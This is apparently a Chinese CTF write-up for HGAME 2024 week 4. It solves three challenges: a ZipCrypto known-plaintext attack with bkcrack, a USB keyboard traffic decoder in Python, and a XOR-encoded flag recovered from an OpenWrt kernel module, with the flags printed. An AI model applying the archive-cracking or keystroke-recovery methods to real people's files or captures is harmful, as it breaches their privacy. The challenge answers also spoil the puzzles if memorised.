PS D:\bdist\bkcrack-1.6.1-win64> .\bkcrack.exe -C D:\Workspace\rev\hgame_2024\week_4\maybezip\download.zip --cipher-index 1 -o 83350 --ignore-check-byte --plain-file D:\Workspace\rev\hgame_2024\week_4\maybezip\end.bin
bkcrack 1.6.1 - 2024-01-22
[16:00:45] Z reduction using 4 bytes of known plaintext
100.0 % (4 / 4)
[16:00:45] Attack on 1320538 Z values at index 83357
Keys: c0e1a64f 5109d867 43f9c6e6
23.0 % (303877 / 1320538)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 303877
[16:01:55] Keys
c0e1a64f 5109d867 43f9c6e6
PS D:\bdist\bkcrack-1.6.1-win64> .\bkcrack.exe -C D:\Workspace\rev\hgame_2024\week_4\maybezip\download.zip -k c0e1a64f 5109d867 43f9c6e6 -U D:\Workspace\rev\hgame_2024\week_4\maybezip\dec.zip simple
bkcrack 1.6.1 - 2024-01-22
[16:03:31] Writing unlocked archive D:\Workspace\rev\hgame_2024\week_4\maybezip\dec.zip with password "simple"
100.0 % (119 / 119)
Wrote unlocked archive.
PS D:\bdist\bkcrack-1.6.1-win64>
```

将 zip 的密码改为 `"simple"` 后解压。


my_secret 中有很多数字。观察压缩包中图片文件的修改日期，猜测可能存在隐写。



编写脚本解码。

```python
import os
import re

from Crypto.Util.number import long_to_bytes
from pwn import *

RE_PNG_FILE = re.compile(r"^([0-9]{3})**\.**png$")

bits: dict[int, bool] = {}

for fname in os.listdir("maybezip/dec/out"):
    m = RE_PNG_FILE.match(fname)
    if m is None:
        continue
    file_id = int(m.group(1))
    file_stat = os.stat(f"maybezip/dec/out/{fname}")
    bits[file_id] = (file_stat.st_mtime_ns // 1000000000) % 2 != 0

bit_str = "".join(
    map(lambda p: "1" if p[1] else "0", sorted(bits.items(), key=lambda p: p[0]))
)
bit_str = bit_str.ljust((len(bit_str) // 4 + 1) * 4, "0")

success(long_to_bytes(int(bit_str, base=2)).decode("ascii", errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/maybezip/decode.py
[+] what_is_tupper
PS D:\Workspace\rev\hgame_2024\week_4>
```

结果提示我们上述数字可能是 Tupper's formula 的参数，可以查找工具解码。


是一个 Micro QR code（<https://en.wikipedia.org/wiki/QR_code#Micro_QR_code>），增强后使用扫描软件得到 flag。


`hgame{Matryo5hk4_d01l}`

PS: Matroyoshka doll 意为“俄罗斯套娃”。

### ezKeyboard

> 本来是个签到题，但有时候往往事与愿违
>
> 1. 流量不需要修复，出题人拿自己电脑现抓的一段流量，他本身就是这样的。
> 2. 本题键盘流量的 HID Data 格式和常见的格式略有不同，但本质如一。
> 3. 你需要辩证看待这些个脚本网络上的脚本。他们大多出自一家，没几十行的核心代码里，都毫不例外地保留了数个编程初学者常犯的致命失误。
> 4. 相信自己的水平，从头写一个脚本往往比找别人的错误容易。

USB HID 流量分析。

发现多个设备。


使用 tshark 进行包筛选。


`usb.src == "1.2.3" && usbhid.data`

导出后选择 hex 的 HID data 进一步分析。

```plain-text
tshark.exe -r .\hgame_1.2.3.pcap -T fields -e usbhid.data -e usb.capdata > hid_int_in_1.2.3.txt
```

编写脚本解析各个字段即可。需要注意 Caps Lock 作为一个 non-locking key 具有隐含 1 位状态，上升沿触发翻转。同时每个包头部有一个不知道哪里来的 0x01，需要去掉。这么做的理由是第 1 个字节始终为 0x01，第 3 个字节始终为 0x00 (正常 HID 报告的 padding 字节，在第二个位置)。

```python
import struct
import typing as ty

from pwn import *

FILENAME = "hid_int_in_1.2.3.txt"
BOOT_KEYBOARD_MAP: dict[int, tuple[str, str]] = {
    # 0x00: (None, None),  # Reserved (no event indicated)
    0x01: ("", ""),  # ErrorRollOver
    0x02: ("", ""),  # POSTFail
    0x03: ("", ""),  # ErrorUndefined
    0x04: ("a", "A"),  # a
    0x05: ("b", "B"),  # b
    0x06: ("c", "C"),  # c
    0x07: ("d", "D"),  # d
    0x08: ("e", "E"),  # e
    0x09: ("f", "F"),  # f
    0x0A: ("g", "G"),  # g
    0x0B: ("h", "H"),  # h
    0x0C: ("i", "I"),  # i
    0x0D: ("j", "J"),  # j
    0x0E: ("k", "K"),  # k
    0x0F: ("l", "L"),  # l
    0x10: ("m", "M"),  # m
    0x11: ("n", "N"),  # n
    0x12: ("o", "O"),  # o
    0x13: ("p", "P"),  # p
    0x14: ("q", "Q"),  # q
    0x15: ("r", "R"),  # r
    0x16: ("s", "S"),  # s
    0x17: ("t", "T"),  # t
    0x18: ("u", "U"),  # u
    0x19: ("v", "V"),  # v
    0x1A: ("w", "W"),  # w
    0x1B: ("x", "X"),  # x
    0x1C: ("y", "Y"),  # y
    0x1D: ("z", "Z"),  # z
    0x1E: ("1", "!"),  # 1
    0x1F: ("2", "@"),  # 2
    0x20: ("3", "#"),  # 3
    0x21: ("4", "$"),  # 4
    0x22: ("5", "%"),  # 5
    0x23: ("6", "^"),  # 6
    0x24: ("7", "&"),  # 7
    0x25: ("8", "*"),  # 8
    0x26: ("9", "("),  # 9
    0x27: ("0", ")"),  # 0
    0x28: ("\n", "\n"),  # Return (ENTER)
    0x29: ("[ESC]", "[ESC]"),  # Escape
    0x2A: ("\b", "\b"),  # Backspace
    0x2B: ("\t", "\t"),  # Tab
    0x2C: (" ", " "),  # Spacebar
    0x2D: ("-", "_"),  # -
    0x2E: ("=", "+"),  # =
    0x2F: ("[", "{"),  # [
    0x30: ("]", "}"),  # ]
    0x31: ("\\", "|"),  # \
    0x32: ("", ""),  # Non-US # and ~
    0x33: (";", ":"),  # ;
    0x34: ("'", '"'),  # '
    0x35: ("`", "~"),  # `
    0x36: (",", "<"),  # ,
    0x37: (".", ">"),  # .
    0x38: ("/", "?"),  # /
    0x39: ("[CAPSLOCK]", "[CAPSLOCK]"),  # Caps Lock
    0x3A: ("[F1]", "[F1]"),  # F1
    0x3B: ("[F2]", "[F2]"),  # F2
    0x3C: ("[F3]", "[F3]"),  # F3
    0x3D: ("[F4]", "[F4]"),  # F4
    0x3E: ("[F5]", "[F5]"),  # F5
    0x3F: ("[F6]", "[F6]"),  # F6
    0x40: ("[F7]", "[F7]"),  # F7
    0x41: ("[F8]", "[F8]"),  # F8
    0x42: ("[F9]", "[F9]"),  # F9
    0x43: ("[F10]", "[F10]"),  # F10
    0x44: ("[F11]", "[F11]"),  # F11
    0x45: ("[F12]", "[F12]"),  # F12
    0x46: ("[PRINTSCREEN]", "[PRINTSCREEN]"),  # Print Screen
    0x47: ("[SCROLLLOCK]", "[SCROLLLOCK]"),  # Scroll Lock
    0x48: ("[PAUSE]", "[PAUSE]"),  # Pause
    0x49: ("[INSERT]", "[INSERT]"),  # Insert
    0x4A: ("[HOME]", "[HOME]"),  # Home
    0x4B: ("[PAGEUP]", "[PAGEUP]"),  # Page Up
    0x4C: ("[DELETE]", "[DELETE]"),  # Delete Forward
    0x4D: ("[END]", "[END]"),  # End
    0x4E: ("[PAGEDOWN]", "[PAGEDOWN]"),  # Page Down
    0x4F: ("[RIGHTARROW]", "[RIGHTARROW]"),  # Right Arrow
    0x50: ("[LEFTARROW]", "[LEFTARROW]"),  # Left Arrow
    0x51: ("[DOWNARROW]", "[DOWNARROW]"),  # Down Arrow
    0x52: ("[UPARROW]", "[UPARROW]"),  # Up Arrow
    0x53: ("[NUMLOCK]", "[NUMLOCK]"),  # Num Lock
    0x54: ("[KEYPADSLASH]", "/"),  # Keypad /
    0x55: ("[KEYPADASTERISK]", "*"),  # Keypad *
    0x56: ("[KEYPADMINUS]", "-"),  # Keypad -
    0x57: ("[KEYPADPLUS]", "+"),  # Keypad +
    0x58: ("[KEYPADENTER]", "[KEYPADENTER]"),  # Keypad ENTER
    0x59: ("[KEYPAD1]", "1"),  # Keypad 1 and End
    0x5A: ("[KEYPAD2]", "2"),  # Keypad 2 and Down Arrow
    0x5B: ("[KEYPAD3]", "3"),  # Keypad 3 and PageDn
    0x5C: ("[KEYPAD4]", "4"),  # Keypad 4 and Left Arrow
    0x5D: ("[KEYPAD5]", "5"),  # Keypad 5
    0x5E: ("[KEYPAD6]", "6"),  # Keypad 6 and Right Arrow
    0x5F: ("[KEYPAD7]", "7"),  # Keypad 7 and Home
    0x60: ("[KEYPAD8]", "8"),  # Keypad 8 and Up Arrow
    0x61: ("[KEYPAD9]", "9"),  # Keypad 9 and Page Up
    0x62: ("[KEYPAD0]", "0"),  # Keypad 0 and Insert
    0x63: ("[KEYPADPERIOD]", "."),  # Keypad . and Delete
    0x64: ("", ""),  # Non-US \ and |
    0x65: ("", ""),  # Application
    0x66: ("", ""),  # Power
    0x67: ("[KEYPADEQUALS]", "="),  # Keypad =
    0x68: ("[F13]", "[F13]"),  # F13
    0x69: ("[F14]", "[F14]"),  # F14
    0x6A: ("[F15]", "[F15]"),  # F15
    0x6B: ("[F16]", "[F16]"),  # F16
    0x6C: ("[F17]", "[F17]"),  # F17
    0x6D: ("[F18]", "[F18]"),  # F18
    0x6E: ("[F19]", "[F19]"),  # F19
    0x6F: ("[F20]", "[F20]"),  # F20
    0x70: ("[F21]", "[F21]"),  # F21
    0x71: ("[F22]", "[F22]"),  # F22
    0x72: ("[F23]", "[F23]"),  # F23
    0x73: ("[F24]", "[F24]"),  # F24
    0x74: ("", ""),  # Execute
    0x75: ("", ""),  # Help
    0x76: ("", ""),  # Menu
    0x77: ("", ""),  # Select
    0x78: ("", ""),  # Stop
    0x79: ("", ""),  # Again
    0x7A: ("", ""),  # Undo
    0x7B: ("", ""),  # Cut
    0x7C: ("", ""),  # Copy
    0x7D: ("", ""),  # Paste
    0x7E: ("", ""),  # Find
    0x7F: ("", ""),  # Mute
    0x80: ("", ""),  # Volume Up
    0x81: ("", ""),  # Volume Down
    0x82: ("", ""),  # Locking Caps Lock
    0x83: ("", ""),  # Locking Num Lock
    0x84: ("", ""),  # Locking Scroll Lock
    0x85: ("", ""),  # Keypad Comma
    0x86: ("", ""),  # Keypad Equal Sign
    0x87: ("", ""),  # International1
    0x88: ("", ""),  # International2
    0x89: ("", ""),  # International3
    0x8A: ("", ""),  # International4
    0x8B: ("", ""),  # International5
    0x8C: ("", ""),  # International6
    0x8D: ("", ""),  # International7
    0x8E: ("", ""),  # International8
    0x8F: ("", ""),  # International9
    0x90: ("", ""),  # LANG1
    0x91: ("", ""),  # LANG2
    0x92: ("", ""),  # LANG3
    0x93: ("", ""),  # LANG4
    0x94: ("", ""),  # LANG5
    0x95: ("", ""),  # LANG6
    0x96: ("", ""),  # LANG7
    0x97: ("", ""),  # LANG8
    0x98: ("", ""),  # LANG9
    0x99: ("", ""),  # Alternate Erase
    0x9A: ("", ""),  # SysReq/Attention
    0x9B: ("", ""),  # Cancel
    0x9C: ("", ""),  # Clear
    0x9D: ("", ""),  # Prior
    0x9E: ("", ""),  # Return
    0x9F: ("", ""),  # Separator
    0xA0: ("", ""),  # Out
    0xA1: ("", ""),  # Oper
    0xA2: ("", ""),  # Clear/Again
    0xA3: ("", ""),  # CrSel/Props
    0xA4: ("", ""),  # ExSel
    0xA5: ("", ""),  # Reserved
    0xA6: ("", ""),  # Reserved
    0xA7: ("", ""),  # Reserved
    0xA8: ("", ""),  # Reserved
    0xA9: ("", ""),  # Reserved
    0xAA: ("", ""),  # Reserved
    0xAB: ("", ""),  # Reserved
    0xAC: ("", ""),  # Reserved
    0xAD: ("", ""),  # Reserved
    0xAE: ("", ""),  # Reserved
    0xAF: ("", ""),  # Reserved
    0xB0: ("", ""),  # Keypad 00
    0xB1: ("", ""),  # Keypad 000
    0xB2: ("", ""),  # Thousands Separator
    0xB3: ("", ""),  # Decimal Separator
    0xB4: ("", ""),  # Currency Unit
    0xB5: ("", ""),  # Currency Sub-unit
    0xB6: ("", ""),  # Keypad (
    0xB7: ("", ""),  # Keypad )
    0xB8: ("", ""),  # Keypad {
    0xB9: ("", ""),  # Keypad }
    0xBA: ("", ""),  # Keypad Tab
    0xBB: ("", ""),  # Keypad Backspace
    0xBC: ("", ""),  # Keypad A
    0xBD: ("", ""),  # Keypad B
    0xBE: ("", ""),  # Keypad C
    0xBF: ("", ""),  # Keypad D
    0xC0: ("", ""),  # Keypad E
    0xC1: ("", ""),  # Keypad F
    0xC2: ("", ""),  # Keypad XOR
    0xC3: ("", ""),  # Keypad ^
    0xC4: ("", ""),  # Keypad %
    0xC5: ("", ""),  # Keypad <
    0xC6: ("", ""),  # Keypad >
    0xC7: ("", ""),  # Keypad &
    0xC8: ("", ""),  # Keypad &&
    0xC9: ("", ""),  # Keypad |
    0xCA: ("", ""),  # Keypad ||
    0xCB: ("", ""),  # Keypad :
    0xCC: ("", ""),  # Keypad #
    0xCD: ("", ""),  # Keypad Space
    0xCE: ("", ""),  # Keypad @
    0xCF: ("", ""),  # Keypad !
    0xD0: ("", ""),  # Keypad Memory Store
    0xD1: ("", ""),  # Keypad Memory Recall
    0xD2: ("", ""),  # Keypad Memory Clear
    0xD3: ("", ""),  # Keypad Memory Add
    0xD4: ("", ""),  # Keypad Memory Subtract
    0xD5: ("", ""),  # Keypad Memory Multiply
    0xD6: ("", ""),  # Keypad Memory Divide
    0xD7: ("", ""),  # Keypad +/-
    0xD8: ("", ""),  # Keypad Clear
    0xD9: ("", ""),  # Keypad Clear Entry
    0xDA: ("", ""),  # Keypad Binary
    0xDB: ("", ""),  # Keypad Octal
    0xDC: ("", ""),  # Keypad Decimal
    0xDD: ("", ""),  # Keypad Hexadecimal
    0xDE: ("", ""),  # Reserved
    0xDF: ("", ""),  # Reserved
    0xE0: ("", ""),  # Left Control
    0xE1: ("", ""),  # Left Shift
    0xE2: ("", ""),  # Left Alt
    0xE3: ("", ""),  # Left GUI
    0xE4: ("", ""),  # Right Control
    0xE5: ("", ""),  # Right Shift
    0xE6: ("", ""),  # Right Alt
    0xE7: ("", ""),  # Right GUI
}

class HidKeyboardReport(ty.NamedTuple):
    ctrl: bool
    shift: bool
    alt: bool
    gui: bool
    keys: list[str]

def parse_hid_packet(packet: bytes) -> HidKeyboardReport:
    mods: int
    keycodes: bytes
    mods, keycodes = struct.unpack("!Bx6s", packet[0:8])
    ctrl = mods & 0x11 != 0
    shift = mods & 0x22 != 0
    alt = mods & 0x44 != 0
    gui = mods & 0x88 != 0
    keycodes = packet[2:8]
    return HidKeyboardReport(
        ctrl,
        shift,
        alt,
        gui,
        list(
            map(
                lambda k: BOOT_KEYBOARD_MAP[k][1 if shift else 0],
                filter(lambda kc: kc != 0, keycodes),
            ),
        ),
    )

with open(FILENAME, "rt") as f:
    lines = f.readlines()

keystrokes = map(
    lambda l: parse_hid_packet(bytes.fromhex(l)[1:]),
    filter(lambda l: len(l) != 0, map(lambda l: l.strip(), lines)),
)

caps_lock_prev = False
caps_lock = False
result = ""
for k in keystrokes:
    caps_lock_this = "[CAPSLOCK]" in k.keys
    if not caps_lock_prev and caps_lock_this:
        caps_lock = not caps_lock
    caps_lock_prev = caps_lock_this

    for key_str in filter(lambda s: len(s) == 1, k.keys):
        if key_str.isalpha():
            if caps_lock:
                key_str = key_str.upper() if key_str.islower() else key_str.lower()
        if k.ctrl:
            result += f"^{key_str.upper()}"
        else:
            result += key_str
success(result)
```

```c
PS D:\Workspace\rev\hgame_2024\week_4\ezKeyboard> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/ezKeyboard/analyze_1.py
[+] hgame{keYb0a1d_gam0__15_s0_f0n__!!~~~~}^C
PS D:\Workspace\rev\hgame_2024\week_4\ezKeyboard>
```

`hgame{keYb0a1d_gam0__15_s0_f0n__!!~~~~}`

## IOT

### ez7621

> flag in kernel mode.

基础嵌入式固件分析 +MIPSEL 逆向。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/ez7621$ binwalk -AB ./openwrt-ramips-mt7621-youhua_wr1200js-squashfs-sysupgrade.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0x4E6924EB, created: 2023-11-14 13:38:11, image size: 2843650 bytes, Data Address: 0x80001000, Entry Point: 0x80001000, data CRC: 0x7FC9D6F, OS: Linux, CPU: MIPS, image type: OS Kernel Image, compression type: lzma, image name: "MIPS OpenWrt Linux-5.15.137"
64            0x40            LZMA compressed data, properties: 0x6D, dictionary size: 8388608 bytes, uncompressed size: 9467008 bytes
2729774       0x29A72E        ARMEB instructions, function prologue
2843714       0x2B6442        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3818212 bytes, 1356 inodes, blocksize: 262144 bytes, created: 2023-11-14 13:38:11

mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/ez7621$
```

查看 opkg 包列表可以发现有一个有趣的模块。

```plain-text
Package: kmod-flag
Version: 5.15.137-1
Depends: kernel (= 5.15.137-1-29d3c8b2d48de9c08323849df5ed6674)
Status: install user installed
Architecture: mipsel_24kc
Installed-Time: 1699969091
```

该模块的 manifest 如下：

```plain-text
Package: kmod-flag
Version: 5.15.137-1
Depends: kernel (=5.15.137-1-29d3c8b2d48de9c08323849df5ed6674)
Source: package/kernel/hgame_flag
SourceName: kmod-flag
License: GPL-2.0
Section: kernel
SourceDateEpoch: 1708448900
Maintainer: Doddy <doddy@vidar.club>
Architecture: mipsel_24kc
Installed-Size: 1283
Description:  HGAME Flag
```

模块文件列表如下：

```bash
/etc/modules-boot.d/30-flag
/etc/modules.d/30-flag
/lib/modules/5.15.137/mt7621-flag.ko
```

根据该路径找到的 ko 文件如下。

使用 IDA 反汇编。

```c
int init_module()
{
  const char *v0; // $v0
  char *v1; // $v1
  int v2; // $t0
  int v3; // $a3
  int v4; // $a2
  int v5; // $a1
  int v6; // $t1
  int v7; // $t0
  __int16 v8; // $a3
  char v9; // $v0
  __int64 v10; // $v0
  char v12[44]; // [sp+14h] [-68h] BYREF
  int v13[13]; // [sp+40h] [-3Ch] BYREF

  v0 = ">17;3-ee44`3`a{`boe{b2fb{4`d4{bdg5aoog4d44+";
  v1 = v12;
  do
  {
    v2 = *(_DWORD *)v0;
    v3 = *((_DWORD *)v0 + 1);
    v4 = *((_DWORD *)v0 + 2);
    v5 = *((_DWORD *)v0 + 3);
    v0 += 16;
    *(_DWORD *)v1 = v2;
    *((_DWORD *)v1 + 1) = v3;
    *((_DWORD *)v1 + 2) = v4;
    *((_DWORD *)v1 + 3) = v5;
    v1 += 16;
  }
  while ( v0 != "g5aoog4d44+" );
  v6 = *(_DWORD *)v0;
  v7 = *((_DWORD *)v0 + 1);
  v8 = *((_WORD *)v0 + 4);
  v9 = v0[10];
  *(_DWORD *)v1 = v6;
  *((_DWORD *)v1 + 1) = v7;
  *((_WORD *)v1 + 4) = v8;
  v1[10] = v9;
  memset(v13, 0, 50);
  v10 = (unsigned int)strnlen(v12, 43);
  if ( (unsigned int)v10 >= 0x2B )
  {
    if ( (_DWORD)v10 != 43 )
      fortify_panic("strnlen");
    v10 = fortify_panic("strlen");
  }
  while ( (_DWORD)v10 != HIDWORD(v10) )
  {
    *((_BYTE *)v13 + HIDWORD(v10)) = v12[HIDWORD(v10)] ^ 0x56;
    ++HIDWORD(v10);
  }
  printk(&_LC1, v13);
  return 0;
}
```

大概流程是将字符串从 ROM 里面复制过来然后异或 0x56。那么解密脚本是显然的。

```python
from pwn import *

CIPHER = b">17;3-ee44`3`a{`boe{b2fb{4`d4{bdg5aoog4d44+"

plain = bytes(map(lambda x: (x ^ 0x56) & 0xFF, CIPHER))
success(plain.decode("ascii", errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4> python .\ez7621\sol.py
[+] hgame{33bb6e67-6493-4d04-b62b-421c7991b2bb}
PS D:\Workspace\rev\hgame_2024\week_4>
```

`hgame{33bb6e67-6493-4d04-b62b-421c7991b2bb}`
